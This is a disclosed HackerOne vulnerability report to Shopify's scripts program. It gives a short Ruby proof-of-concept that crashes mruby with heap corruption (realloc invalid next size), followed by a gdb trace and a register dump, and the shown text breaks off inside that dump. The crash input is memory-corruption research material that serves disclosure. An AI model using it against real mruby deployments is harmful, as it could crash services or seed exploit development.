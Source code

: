 # SIGABRT - method_missing - mark_context_stack

## Report Details
- **Report ID**: 205284
- **URL**: https://hackerone.com/reports/205284
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-02-10T15:45:39.699Z
- **Disclosed**: 2017-03-29T23:32:37.011Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_method_missing.rb):

	def method_missing(e,*)0.n||=0
	00end
	b

Debug - mirb
-------------------

	(gdb) r test_method_missing.rb 
	Starting program: /home/x/Desktop/research/test/mruby/bin/mirb test_method_missing.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :method_missing
	*** Error in `/home/x/Desktop/research/test/mruby/bin/mirb': realloc(): invalid next size: 0x00000000006c0e20 ***

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) info reg
	rax            0x0	0
	rbx            0x72	114
	rcx            0xffffffffffffffff	-1
	rdx            0x6	6
	rsi            0x6268	25192
	rdi            0x6268	25192
	rbp            0x7fffffffc2a0	0x7fffffffc2a0
	rsp            0x7fffffffbf08	0x7fffffffbf08
	r8             0x3032653063363030	3472949521153404976
	r9             0x742f686372616573	8372025008635078003
	r10            0x8	8
	r11            0x246	582
	r12            0x7fffffffc0b0	140737488339120
	r13            0x7	7
	r14            0x72	114
	r15            0x7	7
	rip            0x7ffff7744f79	0x7ffff7744f79 <__GI_raise+57>
	eflags         0x246	[ PF ZF IF ]
	cs             0x33	51